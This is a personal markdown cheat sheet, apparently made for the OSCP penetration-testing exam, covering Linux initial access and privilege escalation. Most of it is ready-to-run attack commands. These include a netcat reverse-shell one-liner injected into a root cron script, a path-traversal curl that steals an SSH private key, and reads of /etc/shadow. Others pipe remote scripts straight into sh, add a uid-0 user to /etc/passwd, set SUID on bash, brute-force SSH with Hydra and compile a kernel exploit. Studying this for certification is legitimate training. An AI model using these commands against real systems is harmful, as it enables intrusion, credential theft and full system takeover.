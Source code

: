 Tags: [[OSCP]]

---
# Initial Access
Launch Netcat Listener: `nc -nvlp 1234`
Launch HTML server: `python3 -m http.server 80
Launch Python Virtual Environment:
- `cd ~/py` 
- `python3 -m venv venv
- `source bin/activate
Run enum4linux-ng: `enum4linux-ng -A 192.168.x.x`
Run enum4linux: `enum4linux 192.168.x.x` (Run both tools)
# PrivEsc
## Upgrade Shell
- `/usr/bin/script -qc /bin/bash /dev/null
- `python3 -c 'import pty; pty.spawn("/bin/bash")'
- `python3 -c "import pty; pty.spawn('/bin/sh')"
- `/bin/sh -i` | `/bin/bash -i` | `echo 'os.system('/bin/bash')'`
- `perl -e 'exec "/bin/sh";'`
- To escape rbash
	- `ssh user@ip -t "bash --noprofile"`
	- `export PATH=$PATH:/usr/local/sbin:/usr/localsbin:/usr/sbin:/usr/bin:/sbin:/bin`
## Enumerate
- `find / -name local.txt -type f 2>/dev/null`
- `id`
- `cat /etc/passwd` | `cat /etc/shadow` | `cat /root/.ssh`
- `hostname`, `cat /etc/issue`,`cat /etc/os-release`, `uname -a`
- `/home/andrew/.bash_history`
- `sudo -l` --> check [GTFOBins](https://gtfobins.github.io/)
- `crontab -l`
- `su root:root`, `su andrew:andrew`, `su andrew:(NOPASS)`, `sudo -i` (reqs root password)
- `ls /var/mail` | `ls /var/spool/mail`
- `/usr/sbin/getcap -r / 2>/dev/null`
- [If member of Disk Group](https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989--------------------------------)
	- `df -h` (find OS) | `debugfs /dva/OS` | `/etc/shadow` `/root/.ssh`
- Binaries
	- `find / -perm -4000 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null -printf "%f\n"`
		- `ls -lah` & check [GTFObins](https://gtfobins.github.io/#)
- Processes:
	- `ps -eaf`
	- Watch processes:`watch -n 1 "ps -aux | grep pass"`
	-  Pspy: https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
		- `wget $kaliIP/pspy32`
		- `chmod +x pspy32` & `timeout 2m ./pspy32`
	- If root is regularly running a writable script: `echo "chmod +s /bin/bash" >> script.sh` then `/bin/bash -p`
- Enumeration Scripts:
	- [SUIDer](https://github.com/etc5had0w/suider/blob/main/suider.sh): `wget -L https://github.com/etc5had0w/suider/blob/main/suider.sh`
	- [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS): `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
	- [LinEnum](https://github.com/rebootuser/LinEnum)
	- Kali Pre-installed `unix-privesc-check`
	- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) `https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh`
	- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) `wget https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh`

## Exploit
- RSA key on Linux server: `curl http://192.168.XX.XXX/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/username/.ssh/id_rsa`
# Random - To Sort
- `exiftool -a -u file.pdf` (metadata inspector) 
- 

- Linux -  https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ (Comprehensive Cheat Sheet)
- DirtyPipe https://medium.com/@urshilaravindran/dirty-pipe-linux-local-privilege-escalation-cve-2022-0847-f16ec3c04ea4
- PwnKit https://github.com/ly4k/PwnKit/tree/main (POWERFUL)
- Wildcards with tar https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

## Manual Enumeration
System/User Info
- 
- List installed applications: `dpkg -l` (Debian) or `rpm` (RedHat)
- Find writable directories: `find / -writable -type d 2>/dev/null`
- Cron Jobs: `ls -lah /etc/cron*` & `sudo crontab -l`
- List drives mounted at boot: `cat /etc/fstab`
- View all available disks: `lsblk`
- List loaded kernel modules: `lsmod` (Inspect a Module: `/sbin/modinfo modulename`)
- Find permissions that can be set: `find / -perm -u=s -type f 2>/dev/null`
	- Check binaries with `strings` (eg. `strings /usr/bin/passwd_flag`)
- Net
	- Network interfaces: `ipconfig` or `ip a` 
	- Routing Tables: `routel` 
	- Network connections: `netstat` or `ss -anp` 
	- Firewall Rules: `cat /etc/iptables/rules.v4`
### Other Tools
- [LinEnum](https://github.com/rebootuser/LinEnum) ([Script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh))
	- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && chmod +x LinEnum.sh` (`./LinEnum.sh` to run)
- [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) ([Releases](https://github.com/peass-ng/PEASS-ng/releases/tag/20240908-e068962e))
	- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
## Inspecting User Trails
- `env`
- `cat .bashrc`

Switch to root with credentials found: `su -root`
Use `crunch` to generate custom wordlist for password bruteforce another user: 
- `crunch 6 6 -t Lab%%% > wordlist`
- Then use wordlist with Hydra: `hydra -l user -P wordlist 192.168.taregt.ip -t 4 ssh -V`

## Inspecting Service Footprints
Look for "pass"
- Watch processes with 1 second refresh:`watch -n 1 "ps -aux | grep pass"`
- Capture traffic via tcmpdump: `sudo tcpdump -i lo -A | grep "pass"`

## Insecure File Permissions
### Abusing Cron Jobs
Inspect cron log file: `grep "CRON" /var/log/syslog`
- Look for scripts running regularly that you can modify
  Check permission: `ls -lah file/path/.scripts/target_script.sh `)
- Echo into the script a reverse-shell one-liner then wait for it to execute
  eg. `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.attack.ip 4444 >/tmp/f" >> /file/path/target_script.sh`
## Abusing Password Authentication
If `/ect/passwd` is writable (`ls -lah /etc/passwd`)
- Generate a password hash (crypt algorithm): `openssl passwd pass123`
- Echo new user "root2" into /etc/passwd: `echo "root2:PaSsW0rdHashH3r3:0:0:root:/root:/bin/bash" >> /etc/passwd`
- Switch to new root user: `su root2` & enter `pass123`
## Insecure System Components
Run password change for low-privilege user: `passwd`
- In another tab, check the process ID: `ps u -C passwd` 
- Check process (UID=1932) is running as root: `grep Uid /proc/1932/status`
	  `Uid: 1000    0    0    0` (Uid of "zero" means it's root)
- Check process for a Set-User-ID: `ls -asl /usr/bin/passwd`
	  `-rwsr-xr-x 1 root root` (look for `s`)

If we found `find` is misconfigured:
- `find /home/joe/Desktop -exec "/usr/bin/bash" -p \;`

To search for misconfigured capabilities: `/usr/sbin/getcap -r / 2>/dev/null`
	Look for options with `setuid+ep` (set UID is *effective* and *permitted*)

## Kernel Vulnerabilities
Always inspect the following;
- System information: `cat /etc/issue`
- Kernel Version: `uname -r`
- System architechture: `arch`

Use Searchsploit to look for kernel exploits: `searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`
- Copy exploit to current folder: `cp /usr/share/exploitdb/exploits/linux/local/45010.c .`
- Check `head` for compilation instructions: `head 45010.c`
- If exploit has GCC;
	- Just needs a rename: `mv 45010.c cve-2017-16995.c`
	- Transfer exploit to target via SCP: `scp cve-2017-16995.c joe@192.168.target.ip.:`
	- Connect & run GCC to compile: `gcc cve-2017-16995.c -o cve-2017-16995`
	- Run exploit: `./cve-2017-16995`